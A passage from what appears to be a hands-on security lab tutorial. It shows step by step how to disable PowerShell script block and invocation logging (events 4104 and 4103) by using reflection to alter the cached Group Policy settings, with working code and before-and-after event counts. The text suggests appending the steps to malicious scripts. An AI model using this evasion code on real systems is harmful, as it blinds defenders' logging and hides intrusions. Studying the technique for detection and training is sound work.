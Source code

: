At step one, we must use reflection to obtain the type of `System.Management.Automation.Utils` and identify the GPO cache field: `cachedGroupPolicySettings`.

```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
```

At step two, we can leverage the GPO variable to modify either event provider setting to `0`. `EnableScriptBlockLogging` will control **4104** events, limiting the visibility of script execution. Modification can  be accomplished by writing to the object or registry directly.

```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
```

At step three, we can repeat the previous step with any other provider settings we want to `EnableScriptBlockInvocationLogging` will control **4103** events, limiting the visibility of cmdlet and pipeline execution.

```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

We can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and  experiment with this technique.

Note: The core functionality of  the script is identical to the above code but slightly modified to  comply with PowerShell v.5.1 updates.

To prove the efficacy of the script, we can execute it and measure the number of returned events from a given command.

**Before**        

```powershell
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
0
PS C:\Users\Administrator\Desktop> whoami
Tryhackme\administrator
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
3
        
```

**After**        

```powershell
PS C:\Users\Administrator\Desktop> .\gpo-bypass.ps1
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
6
PS C:\Users\Administrator\Desktop> whoami
Tryhackme\administrator
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count
6
        
```
